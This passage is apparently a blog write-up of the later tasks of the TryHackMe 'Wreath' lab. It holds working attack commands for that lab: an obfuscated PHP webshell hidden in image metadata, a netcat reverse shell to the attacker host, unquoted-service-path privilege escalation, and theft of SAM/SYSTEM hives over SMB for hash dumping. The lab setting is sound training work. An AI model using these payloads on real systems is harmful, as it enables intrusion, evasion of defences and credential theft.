![Wreath open empire port .150 machine](/assets/img/Wreath-88.png)

Next, let's upload the chisel executable and create a server with it with the following commands:

```
upload chisel-<username>.exe
./chisel-<username>.exe server -p <port number from Empire/Starkiller> --socks5
```

![Wreath chisel server .150 machine](/assets/img/Wreath-89.png)

Next, on your attacker host, let's run:

`chisel client <.150 IP>:<empire port> 9090:socks`

![Wreath chisel client attacker machine](/assets/img/Wreath-90.png)

Next, let's setup FoxyProxy in Firefox:

![Wreath FoxyProxy attacker machine](/assets/img/Wreath-91.png)

With this done, let's navigate to **http://10.200.84.100** in Firefox (note, this is going to be slow because of the proxying involved).

![Wreath 10.200.84.100 website](/assets/img/Wreath-92.png)

This answers the first question, as we have established a proper pivot and can access the .100 website. Once loaded, use Wappalyzer to view the technology stack involved. This will be used to answer the second question, which is:

`PHP 7.4.11`

![Wreath 10.200.84.100 website Wappalyzer](/assets/img/Wreath-93.png)

### Task 35 [Personal PC] The Wonders of Git

Based on what we can tell, the .100 machine also has a copy of the website present on the .200 machine. However, we can't tell if there's any differences between the two. However, since we know the .150 machine was used as a Git server, we should be able to use our access to the .150 machine to locate the Git repositories. This task has a total of five questions as shown below:

![Wreath Task 35 Questions pt 1](/assets/img/Wreath-94.png)
![Wreath Task 35 Questions pt 2](/assets/img/Wreath-95.png)
![Wreath Task 35 Questions pt 3](/assets/img/Wreath-96.png)

First, go back to the evil-winrm Administrator session on the .150 machine. Let's see if we can locate the Website.git directory. After looking around, the repository was located under:

`C:\GitStack\repositories\Website.git`

This is the answer to the first question. Next, let's download the entire Website, by running:

`download c:\GitStack\repositories\Website.git`

This will take a few minutes to complete, but this will finish the second question.

![Wreath evil-winrm download git website repository](/assets/img/Wreath-97.png)

The third question wants you to rename the subdirectory in the website.git folder to .git.

This can be done by running:

`mv c:\\GitStack\\repositories\\Website.git .git`

Once done, this question is also complete. The fourth question wants you to clone a tool from a Github repository that can be used to extract a git directory. This tool can be clone with:

`git clone https://github.com/internetwache/GitTools`

Next, run the following command to attempt to extract and recreate the repository into a readable format:

`./GitTools/Extractor/extractor.sh . Website`

This runs the extractor script against the repository in the current directory (the .) and says to extract it into a folder named Website.

![Wreath extract git website repository](/assets/img/Wreath-98.png)

This completes the fourth question for this task. The final question for this task wants you to find out the various commits and the name of the latest one. The easiest way to do this is with the following one liner inside the Website folder:

`separator="======================================="; for i in $(ls); do printf "\n\n$separator\n\033[4;1m$i\033[0m\n$(cat $i/commit-meta.txt)\n"; done; printf "\n\n$separator\n\n\n"`

![Wreath extract git website repository](/assets/img/Wreath-99.png)

This shows the commit history and any notes about the commit. The most recent one is the one at the top, which is **0-345ac8b236064b431fa43f53d91c98c4834ef8f3**. Complete this question to finish this task.

### Task 36 [Personal PC] Website Code Analysis

This task consists of four questions as shown below:

![Wreath Task 36 Questions pt 1](/assets/img/Wreath-100.png)
![Wreath Task 36 Questions pt 2](/assets/img/Wreath-101.png)

Let's start working on the first qusetion. First, navigate into the 0-345ac8b236064b431fa43f53d91c98c4834ef8f3 directory. Since we know this site is made with PHP, let's search for all PHP files so we can try to find something potentially exploitable. This can be done with:

`find . -name "*.php"`

![Wreath find all php files](/assets/img/Wreath-102.png)

Let's take a look at this file by opening it in a text editor. Scrolling through the documentation you will locate a ToDo list, which will answer the first two questions:

![Wreath website php todo list](/assets/img/Wreath-103.png)

The answer to the first question is:

`neighbourhood watch meetings`

and the second question is:

`basic auth`

Review of the code makes it appear that there's two checks in place. In lines 10-14, there's a check to retrieve the image size. If it fails, then the file cannot be uploaded. There's also a list of file extensions on line 5, which is the answer to the third question:

`jpg,jpeg,png,gif`

Line 4 also shows that the file is being uploaded to the uploads folder with its original name. Now we know that the upload is vulnerable to attack, and where files are uploaded. We can complete the final question for this task with this information at hand!

### Task 37 [Personal PC] Exploit PoC

This task has a total of three questions, as shown below:

![Wreath Task 37 Questions pt 1](/assets/img/Wreath-104.png)
![Wreath Task 37 Questions pt 2](/assets/img/Wreath-105.png)

Let's follow along with the provided instructions. First, it asks you to navigate to **http://<100 machine ip>/resources**. Once here, you will be prompted with basic auth to access this page. Let's try using the credentials we uncovered earlier in Task 21:

![Wreath 100 machine /resources](/assets/img/Wreath-106.png)

This completes the first question for this task. The second question wants you to upload a legitimate image file to see if that works. This can be any file with any of the extensions uncovered in Task 36. You will be notified that the upload was successful, as shown below:

![Wreath 100 machine /resources upload image](/assets/img/Wreath-107.png)

Now, let's rename this file to test-\<username>.jpeg.php and use exiftool to insert a PHP comment with:

`exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-<username>.jpeg.php`

![Wreath 100 machine /resources upload image](/assets/img/Wreath-108.png)

Next, upload this image as you did for the previous question, and then access it at:

`http://<100 machine ip>/resources/uploads/test-<username>.jpeg.php`

![Wreath 100 machine /resources upload image test php payload](/assets/img/Wreath-109.png)

As you can see, this payload was executed without any issues!, which means we have PHP execution! This completes the final question for this Task

### Task 38 [AV Evasion] Introduction

This task provides some basic information on what AV Evasion is and has three questions in total:

![Wreath Task 38 Questions](/assets/img/Wreath-110.png)

The first question is answered about halfway through the introduction, which is:

`On-Disk evasion`

The second question asks what AMSI stands for, which is a couple paragraphs below the answer to the first, which is:

`Anti-Malware Scan Interface`

The third question asks what category of evasion AMSI affects, which is:

`In-Memory evasion`

### Task 39 [AV Evasion] AV Detection Methods

This is another task that is more theory than hands on, and consists of four questions:

![Wreath Task 39 Questions](/assets/img/Wreath-111.png)

The first question asks for another name for Dynamic/Heuristic detection methods. This can be found at the beginning of this task, and is:

`Behavioural`

The second question asks about what type of analysis is performed when splitting a program into chunks and hashing them and comparing them to a hash database. This is:

`static`

The third question asks how AV would check to see if behavior is malicious when doing dynamic analysis. This is:

`pre-defined rules`

The last question asks what can be added to a file to ensure only a user can open it. This is a:

`password`

### Task 40 [AV Evasion] PHP Payload Obfuscation

Now that we have this knowledge, let's use it to our advantage. There's a total of five questions for this task:

![Wreath Task 40 Questions pt 1](/assets/img/Wreath-112.png)
![Wreath Task 40 Questions pt 2](/assets/img/Wreath-113.png)

The first three questions will be answered as you follow along with the task, where you will create an obfuscated PHP payload, upload it to the .100 web server, and then use it to run commands.

First, copy the payload that you are provided:

```
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

Next, insert it into [this website](https://www.gaijin.at/en/tools/php-obfuscator) to obfuscate the code. Check all the options, and then click on **Obfuscate Source Code**. You should end up with something similar to:

`<?php $t0=$_GET[base64_decode('d3JlYXRo')];if(isset($t0)){echo base64_decode('PHByZT4=').shell_exec($t0).base64_decode('PC9wcmU+');}die();?>`

We will then need to modify this to escape the $ characters for inserting it as a comment into an image file. The updated code should look like:

`<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>`

This completes the first question. Next, find another jpeg image, and save it as:

`shell-<username>.jpeg.php`

Next, add our PHP shell we just obfuscated as a comment with:

`exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" shell-<username>.jpeg.php`

![Wreath create obfuscated PHP payload image file](/assets/img/Wreath-114.png)

This completes the second question. Next, upload your shell image file and access it at:

`http://<100 ip>/resources/uploads/shell-<username>.jpeg.php?wreath=<command to run>`

![Wreath create obfuscated PHP payload ran](/assets/img/Wreath-115.png)

Since we know this works, this completes the third question. The fourth question is answered by either the systeminfo or hostname parameter:

![Wreath create obfuscated PHP payload hostname](/assets/img/Wreath-116.png)

The last question is answered by running the whoami parameter:

![Wreath create obfuscated PHP payload whoami](/assets/img/Wreath-117.png)

### Task 41 [AV Evasion] Compiling Netcat & Reverse Shell!

This task consists of six questions, which are as follows:

![Wreath Task 41 Questions pt 1](/assets/img/Wreath-118.png)
![Wreath Task 41 Questions pt 2](/assets/img/Wreath-119.png)

For the first question, follow the steps at the beginning and make your own compiled version of netcat, which will hopefully evade the AV installed on the .100 system. Once you follow the provided steps and have renamed it to **nc-\<username>.exe**, you can complete the first question. 

Next, start a python http server on your attacker machine in the directory where the netcat executable you created is stored. This is done with:

`python3 -m http.server`

This completes the second question for this task. The third question wants you to ruun certutil.exe with your webshell that you used to run systeminfo and whoami in the previous step. What output appears when you run this?

![Wreath php webshell certutil.exe](/assets/img/Wreath-120.png)

This is the answer to the third question. Let's run the following curl command to upload netcat to the .100 machine from our webshell:

`curl http://<attacker ip>:8000/nc-<username>.exe -o c:\\windows\\temp\\nc-<username.exe>`

![Wreath php webshell upload netcat](/assets/img/Wreath-121.png)

This completes the fourth question. Let's setup a netcat listener on our attacker machine with:

`nc -nvlp 4567`

Next, in the webshell, run:

`powershell.exe c:\\windows\\temp\\nc-<username>.exe <attacker ip> 4567 -e cmd.exe`

We should now have caught a reverse shell on our attacker machine:

![Wreath .100 machine reverse shell](/assets/img/Wreath-122.png)

This completes the fifth If you would like, you can create a Metasploit payload, but I've done this in the past so I opted to skip this final question.

### Task 42 [AV Evasion] Enumeration

This task has a total of six questions, which are as follows:

![Wreath Task 42 Questions pt 1](/assets/img/Wreath-123.png)
![Wreath Task 42 Questions pt 2](/assets/img/Wreath-124.png)

The first question is fairly simple to get the answer to. Run the provided command (whoami /priv) and you will see the following permissions:

![Wreath 100 machine whoami /priv](/assets/img/Wreath-125.png)

The rather infamous privilege to answer the first question is:

`SeImpersonatePrivilege`

The second question wants you to run **whoami /groups** to see if this user is an Administrator, which answers the second question. Unfortunately they are not.

For the third question, run:

`wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"`

This will return non default Windows services:

![Wreath 100 machine wmic list services](/assets/img/Wreath-126.png)

There is one in particular that stands out, as the path is not in quotes. This is what is referred to as an unquoted service path, which is vulnerable to exploitation. The name of this service is located in the second column, which answers the third question:

`SystemExplorerHelpService`

The fourth question wants you to find out what this service runs as. Let's run:

`sc query SystemExplorerHelpService`

This returns the following, which allows you to answer the fourth question:

![Wreath 100 machine sc qc](/assets/img/Wreath-127.png)

We have found a service that runs as local system that is vulnerable to attack, however, we need to ensure that the permissions on the directory in the path allow our user proper access to create a file here. Let's run:

`powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"`

![Wreath 100 machine Powershell get-acl](/assets/img/Wreath-128.png)

This lets us know we have full control over this directory, which means we can exploit this! This completes the fifth question.

The sixth question is optional, but definitely worth doing. You would upload winpeas with curl as you did with netcat, and then run it from your reverse shell. You should get output similar to the following:

![Wreath 100 machine winpeas](/assets/img/Wreath-129.png)
![Wreath 100 machine winpeas vulnerabilities](/assets/img/Wreath-130.png)

### Task 43 [AV Evasion] Privilege Escalation

This task consists of seven questions, which are as follows:

![Wreath Task 43 Questions pt 1](/assets/img/Wreath-131.png)
![Wreath Task 43 Questions pt 2](/assets/img/Wreath-132.png)
![Wreath Task 43 Questions pt 3](/assets/img/Wreath-133.png)
![Wreath Task 43 Questions pt 4](/assets/img/Wreath-134.png)

For the first question, follow along with the provided instructions to create a wrapper.

![Wreath wrapper code](/assets/img/Wreath-135.png)
![Wreath compile wrapper](/assets/img/Wreath-136.png)

After these steps are done, you can complete the first question. Next, let's start an impacket SMB server on our attacker machine in the directory that the Wrapper.exe file is in with:

`sudo /opt/impacket/examples/smbserver.py share . -smb2support -username user -password Password`

![Wreath impacket SMB share](/assets/img/Wreath-137.png)

Next, from the reverse shell on the .100 machine, run the following to connect to this SMB share:

`net use \\<attacker ip>\share /USER:user Password`

![Wreath net use SMB share](/assets/img/Wreath-138.png)

Next, let's copy the wrapper over to a folder our current user has access to, with:

`copy \\<attacker ip>\share\Wrapper.exe %TEMP%\wrapper-<username>.exe`

Next, remove your SMB share from the .100 machine with:

`net use \\<attacker ip>\share /del`

This completes the second question. Next, create a netcat listener with the port you used in the Wrapper.exe file you created on your attacker machine. Once that is done, run the Wrapper file by running:

`"%TEMP\wrapper-<username>.exe"`

![Wreath wrapper reverse shell](/assets/img/Wreath-139.png)

This completes the third question for this task. Let's exit the shell and reset up our listener on that same port on our attacker machine. Next, we discovered the unquoted service path earlier. Let's use this to our advantage and copy the wrapper over to one of the directories so it is executed as local system:

`copy %TEMP%\wrapper-<username>.exe "C:\Program Files (x86)\System Explorer\System.exe"`

This completes the fourth question.

Next let's restart the service on the attacker machine with:

```
sc stop SystemExplorerHelpService
sc start SystemExplorerHelpService
```

![Wreath 100 machine start/stop service](/assets/img/Wreath-140.png)
![Wreath 100 machine localsystem reverse shell](/assets/img/Wreath-141.png)

This completes the fifth question. Next, follow the steps to clean up after yourself and delete the wrapper you created. This completes the sixth question. The final question is optional, and was skipped (and marked complete).

### Task 44 [Exfiltration] Exfiltration Techniques & Post Exploitation 

This task consists of five questions, which are as follows:

![Wreath Task 44 Questions pt 1](/assets/img/Wreath-142.png)
![Wreath Task 44 Questions pt 2](/assets/img/Wreath-143.png)

Read the provided documentation to answer the first two questions. The answers are as follows:

`Nay`

`encryption`

For the third question, follow along and let's save the SAM and SYSTEM registry hives by running the following:

```
reg.exe save HKLM\SAM sam.bak
reg.exe save HKLM\SYSTEM system.bak
```

![Wreath save registry](/assets/img/Wreath-144.png)

Once saved, reconnect to our attacker SMB share as shown in the previous step, and move these two files to that share.


```
move sam.bak \\<attacker ip>\share\sam.bak
move system.bak \\<attacker ip>\share\system.bak
```

Next, disconnect the SMB server as you did before and complete this question. To answer the fourth question, let's run:

`python3 /opt/impacket/examples/secretsdump.py -sam PATH/TO/SAM_FILE -system PATH/TO/SYSTEM_FILE LOCAL`

This will dump all the hashes for the users, including the administrator hash which is the answer to this question.

![Wreath Impacket secretsdump.py](/assets/img/Wreath-145.png)

At this point, we have proof we've owned this network. Perform cleanup on all the systems by deleting the various tools/exploits on the three hosts. Once done, mark this as complete.

### Task 45 [Conclusion] Debrief & Report

This task has two questions, which are to create a report and host it somewhere. This has been done by documenting this process and saving it to my website.

### Task 46 [Conclusion] Final Thoughts

This is just a shout out to everyone who worked on this room. Complete this final question to finish this Network!

</details>